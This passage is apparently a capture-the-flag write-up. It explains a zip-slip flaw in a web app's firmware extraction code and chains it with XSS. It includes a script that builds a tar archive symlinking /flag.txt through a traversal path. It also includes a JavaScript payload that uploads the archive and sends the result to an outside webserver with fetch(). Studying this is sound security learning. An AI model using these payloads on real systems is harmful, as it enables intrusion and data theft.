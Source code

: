 3. At `challenge/application/util.py#L17:L42` there's a `zip slip vulnerability in that function it will extract the archive without sanitizing the file name and checking is it a `symlink` file or not.

```python
def extract_firmware(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        rand_dir = generate(15)
        extractdir = f"{current_app.config['UPLOAD_FOLDER']}/{rand_dir}"
        os.makedirs(extractdir, exist_ok=True)
        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                try:
                    filename = f'{extractdir}/{name}'
                    os.rename(os.path.join(tmp, name), filename)
                    continue
                except:
                    pass
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)
        tar.close()
        return True

    return False
```

It can be concluded,  We need to chain the bug from XSS to zip-slip for getting the flag.

Our first to-do is creating a malicious archive and symlinking the file /flag.

```python
import tarfile, os

if not os.path.exists('symlink'):
    os.symlink('/flag.txt', 'symlink')

path = "../app/application/static/js/flag"
tf = tarfile.open('exploit.tar.gz' , 'w:gz')
tf.add('symlink', path)
tf.close()
```

After that set up a webserver for getting the malicious archive before.

```javascript
(async() => {
    var url = "http://webserver__"
    var f = await fetch(`${url}/`)
    content = await f.blob();
    console.log(content)
    var formData = new FormData();
    formData.append('file', content)
    await fetch("/api/firmware/upload", { method: 'POST', body: formData }).then((r)=>r.text()).then((r)=>fetch('https://webserver_/?q='+encodeURI(r)));
})()
```
